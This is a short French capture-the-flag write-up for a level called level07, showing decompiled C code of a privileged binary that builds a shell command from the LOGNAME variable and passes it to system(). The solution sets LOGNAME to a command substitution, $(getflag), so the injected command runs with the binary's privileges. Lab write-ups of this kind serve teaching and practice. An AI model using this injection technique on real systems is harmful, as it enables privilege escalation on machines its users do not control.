 # Rapport CTF - [level07]

### Observation:
Nous pouvons voir un exécutable `level07` avec les droits de flag07

### Code:
Nous allons décompiler l'exécutable avec ghidra pour voir ce qu'il contient :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}
```
Nous pouvons voir qu'il exécute la variable LOGNAME pour nous donner notre nom d'utilisateur.


### Solution:
On a juste à changer cette variable par une commande getflag avec les droits de flag07: `export LOGNAME='$(getflag)'`

### Nous avons donc directement le mot de passe de level08 sans avoir le flag07

